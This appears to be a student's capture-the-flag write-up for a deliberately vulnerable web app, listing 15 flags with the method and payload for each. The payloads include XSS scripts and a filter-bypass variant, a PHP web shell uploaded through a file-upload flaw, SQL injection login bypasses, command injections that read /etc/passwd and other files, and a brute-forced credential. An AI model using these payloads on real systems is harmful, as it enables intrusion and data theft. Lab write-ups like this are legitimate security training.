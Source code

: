 # Project-2-Ctfd

CTF Challenge Write-up Document

Flag 1:
Method: Cross-site scripting (XSS)
Payload: <script>alert("")</script>
![Flag 1](images/flag1.png)

Flag 2:
Method: XSS with malformed script tags
Payload: <SCRIPscriptT>alert(")</SCRIPscriptT>
![Flag 2](images/flag2.png)


Flag 3:
Method: Cross-site scripting (XSS)
Payload: <script>alert("")</script>
![Flag 3](images/flag3.png)


Flag 4:
Method: Intercepting HTTP requests and responses using Burp Suite
Action: Used Burp Suite on About Rekall page and then sent to response
![Flag 4](images/flag4.png)

Flag 5:
Method: File upload vulnerability leading to remote code execution
Payload: <?php $command = $_GET['cmd']; echo system($command); ?>
![Flag 5](images/flag5.png)

Flag 6:
Method: File upload vulnerability leading to remote code execution (Similar to Flag 5)
Payload: Similar PHP code used in Flag 5 to execute commands
![Flag 6](images/flag6.png)

Flag 7:
Method: SQL Injection
Payload: login ' OR '1'='1' -- password ' OR '1'='1' --
![Flag 7](images/flag7.png)

Flag 8:
Method: Admin login bypass
Action: Used admin username and password to login
![Flag 8](images/flag8.png)

Flag 9:
Method: Information leakage through improperly secured robots.txt file
Action: Accessed /robots.txt to retrieve the flag
![Flag 9](images/flag9.png)

Flag 10:
Method: Command injection via DNS Lookup
Payload: www.example.com | cat venders.txt
![Flag 10](images/flag10.png)

Flag 11:
Method: Direct access to restricted files
Action: Accessed /networking.php directly to obtain the flag
![Flag 11](images/flag11.png)

Flag 12:
Method: Brute force attack
Credentials Discovered: melina:melina
![Flag 12](images/flag12.png)

Flag 13:
Method: Command Injection
Payload: ;system('cat /etc/passwd')
![Flag 13](images/flag13.png)

Flag 14:
Method: Unauthorized access to admin data via URL manipulation
Action: Accessed /admin_legal_data.php with the 'admin' parameter set to a specific value
![Flag 14](images/flag14.png)

Flag 15:
Method: Exploiting the Mail Server by injecting commands
Payload: www.example.com | ls -A; accessed /old_disclaimers directory after that
![Flag 15](images/flag15.png)

